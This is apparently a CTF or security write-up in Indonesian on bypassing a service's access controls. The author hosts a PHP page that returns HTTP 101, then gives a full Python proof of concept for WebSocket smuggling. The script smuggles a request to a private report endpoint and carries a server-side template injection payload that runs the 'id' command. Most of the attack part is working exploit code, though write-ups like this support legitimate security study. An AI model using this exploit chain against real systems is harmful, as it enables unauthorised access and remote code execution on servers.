 Karena dari itu, saya membuat website menggunakan PHP dengan memanfaatkan fungsi `http_response_code` untuk mereturn HTTP response code 101

```php
<?php
	http_response_code(101);
?>
```

Dan beruntung disini saya memiliki domain bernama `daffa.info` karena endpoint `/api/public/test` tidak menerima IP sama sekali

```python
# domain check
if not netloc.replace(".", "").isdigit():
    # resolve the domain to ip
    try:
        ip = socket.gethostbyname(netloc)
    except socket.gaierror:
        return False
```

Setelah server sudah selesai saya setup, kemudian saya menggunakan exploit websocket smuggling dari repository milik [Mikhail Egorov](https://github.com/0ang3el/websocket-smuggle). Berikut adalah final proof of conceptnya:

```python
import socket

req1 = b'''POST /api/public/test HTTP/1.1
Host: 127.0.0.1:80
Connection: Upgrade
Upgrade: websocket
Content-Type: application/json
Content-Length: 32

{"url":"http://daffa.info:8888"}'''


req2 = b'''GET /api/private/report?scan_id=8b46ca2d-57b7-432b-948b-6dfe69864414&report_name={{__import__('os').popen('id').read()}} HTTP/1.1
Host: tempest-poc:5000

'''

def main(netloc):
    host, port = netloc.split(':')

    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((host, int(port)))

    # Send the first request
    sock.sendall(req1)
    sock.recv(4096)

    # Send the second request and receive data
    sock.sendall(req2)
    data = sock.recv(4096)
    data = data.decode(errors='ignore')

    # Print the received data
    print(data)

    # Shutdown and close the socket
    sock.shutdown(socket.SHUT_RDWR)
    sock.close()

```